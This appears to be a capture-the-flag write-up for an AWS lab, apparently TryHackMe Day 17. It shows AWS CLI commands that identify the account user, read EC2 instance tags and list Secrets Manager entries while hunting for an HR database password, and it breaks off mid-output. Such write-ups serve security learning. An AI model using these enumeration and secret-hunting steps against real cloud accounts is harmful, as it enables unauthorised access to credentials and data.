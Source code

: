 Finding the Username of the account: 
```shell
aws sts get-caller-identity --profile thm-day17
{
    "UserId": "AIDAQI52OJVCFHT3E73BO",
    "Account": "019181489476",
    "Arn": "arn:aws:iam::019181489476:user/ElfMcHR@bfc.com"
}
```

Username: `ElfMcHR@bfc.com`

Find the name of the EC2 instance: 
```shell
aws ec2 describe-instances --output text --profile thm-day17

<snip>
TAGS    aws:cloudformation:stack-id     arn:aws:cloudformation:us-east-1:019181489476:stack/HR-Portal/5ebc4e90-447e-11ec-a711-12d63f44d7b7
TAGS    aws:cloudformation:logical-id   Instance
TAGS    created_by      Elf McHR
TAGS    aws:cloudformation:stack-name   HR-Portal
TAGS    Name    HR-Portal
```

the interesting parts are under `TAGS` , where we see that the name is `HR-Portal`

finding the database password stored in Secrets Manager: 
```shell
aws secretsmanager list-secrets --profile thm-day17
{                                                            
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:019181489476:secret:HR-Password-8AkWYF",
            "Name": "HR-Password",                                               
            "Description": "Portal DB Secret",
            "LastChangedDate": 1637717347.812,
            "LastAccessedDate": 1639872000.0,
            "Tags": [
                {
                    "Key": "aws:cloudformation:stack-name",
                    "Value": "HR-Portal" 
                },
                {
                    "Key": "aws:cloudformation:logical-id",
                    "Value": "FalseSecret"
                },
                {
                    "Key": "aws:cloudformation:stack-id",
                    "Value": "arn:aws:cloudformation:us-east-1:019181489476:stack/HR-Portal/5ebc4e90-447e-11ec-a711-12d63f44d7b7"
                },
                {
                    "Key": "created_by", 
                    "Value": "Elf McHR"
                },
                {
                    "Key": "Name",
                    "Value": "Payroll"
                }
            ],
            "SecretVersionsToStages": {
                "70630b3c-4fbe-4a24-885d-18445bd808b1": [
                    "AWSCURRENT"
                ],
                "a702190e-69f7-4a8a-81fd-3d20b486657a": [
```